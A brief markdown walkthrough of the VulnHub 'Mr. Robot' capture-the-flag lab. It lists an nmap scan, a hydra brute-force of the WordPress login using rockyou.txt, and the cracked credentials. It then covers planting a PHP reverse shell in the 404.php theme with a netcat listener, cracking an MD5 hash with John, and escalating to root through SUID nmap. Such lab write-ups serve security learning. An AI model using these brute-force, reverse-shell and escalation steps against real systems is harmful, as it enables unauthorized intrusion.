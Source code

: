# VulnHub – Mr. Robot Walkthrough

## Target IP
`10.129.1.17`

## Tools Used
- Nmap
- Hydra
- Netcat
- Burp Suite
- WordPress
- John the Ripper

## Steps Taken

### 1. Initial Recon

  ```bash
  nmap -sC -sV 10.129.1.17
  ```

Discovered: Port 80, Port 443

## 2. Gained Access
Brute-forced WordPress login with hydra

  ```bash

hydra -l elliot -P rockyou.txt 10.129.xx.xx http-form-post "/wp-login.php:user=^USER^&pass=^PASS^&wp-submit=Log In:F=incorrect"
  ```
Username: elliot, Password: ER28–0652

## 3. Reverse Shell

Logged into WordPress admin

Edited `404.php` theme file and pasted a PHP reverse shell

Set up a listener:

  ```bash
nc -lvnp 4444
  ```

Listener caught reverse shell from daemon

## 4. Privilege Escalation
Found MD5 hash → Cracked hash (c3fcd3d76192e4007dfb496cca67e13b) with John → Password: abcdefghijklmnopqrstuvwxyz

  ```bash
john --format=raw-md5 hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
  ```

Switched to user robot

  ```bash
su robot
  ```

Exploited SUID nmap --interactive to escalate to root

## 5. Captured All Flags

  ```bash
cat /root/key-2-of-3.txt
  ```

  ```bash
cat /root/key-3-of-3.txt
  ```

## Flag Summary

key-1-of-3.txt

key-2-of-3.txt

key-3-of-3.txt

Rooted.
